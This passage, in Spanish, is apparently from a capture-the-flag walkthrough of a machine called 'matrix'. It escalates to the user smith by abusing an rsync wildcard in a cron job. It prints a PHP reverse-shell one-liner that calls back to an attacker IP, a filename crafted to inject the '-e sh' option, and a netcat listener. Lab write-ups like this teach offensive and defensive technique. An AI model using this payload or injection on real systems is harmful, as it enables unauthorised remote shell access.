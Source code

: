 Podemos observar como hay una tarea programada que se ejecuta cada minuto.

```bash
/bin/sh -c cd /var/www/M47r1X.matrix.nyx && rsync -e "ssh -o BatchMode=yes"  -t *.txt matrix:/home/smith/messages/ > /dev/null 2>&1
```

Como tenemos permisos de escritura en la carpeta `/var/www/M47r1X.matrix.nyx`, podemos intentar un rsync Wildcard, más información en https://www.exploit-db.com/papers/33930.

Creamos el fichero `shell.txt` con nano y el fichero `-e sh shell.txt`.

```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ cat shell.txt
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'

www-data@matrix:/var/www/M47r1X.matrix.nyx$ touch ./'-e sh shell.txt' 
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 40
-rw-r--r-- 1 www-data www-data    0 Jan 29 14:26 '-e sh shell.txt'
drwxr-xr-x 2 www-data www-data 4096 Jan 29 14:26  .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00  ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47  filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04  hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55  index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48  matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26  messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27  shell.php
-rw-r--r-- 1 www-data www-data   80 Jan 29 14:25  shell.txt
```

En nuestra maquina atacante nos ponemos a la escucha con netcat.

```
nc -lvnp 12345
```

y en un minuto obtenemos una shell con el usuario `smith`.

![alt text](../../../assets/images/matrix/image-16.png)
